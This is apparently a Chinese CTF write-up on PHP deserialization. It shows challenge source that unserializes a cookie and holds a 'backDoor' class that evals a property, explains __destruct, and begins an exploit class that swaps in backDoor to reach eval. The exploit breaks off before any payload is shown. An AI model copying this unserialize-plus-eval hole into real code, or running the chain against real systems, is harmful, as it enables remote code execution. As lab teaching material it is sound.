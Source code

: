 ```php
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

> __destruct() 是PHP面向对象编程的另一个重要的魔法函数，该函数会在类的一个对象被删除时自动调用。 
>
> 我们可以在该函数中添加一些释放资源的操作，比如关闭文件、关闭数据库链接、清空一个结果集等。其实，__destruct() 在日常的编码中并不常见，因为它是非必须的，是类的可选组成部分。通常只是用来完成对象被删除时的清理动作而已。

**反序列化题目的宗旨：**不能修改类方法的代码，但可以控制类方法的属性，通过类方法的属性来执行我们需要的操作

username和password只需要存在即可

```php
<?php
	class ctfShowUser{
		private $username='xxxxxx';
		private $password='xxxxxx';
		private $isVip=false;
		private $class = 'info';

		public function __construct(){
			$this->class=new backDoor();
		}
		public function login($u,$p){
			return $this->username===$u&&$this->password===$p;
		}
		public function __destruct(){
			$this->class->getInfo();
		}
```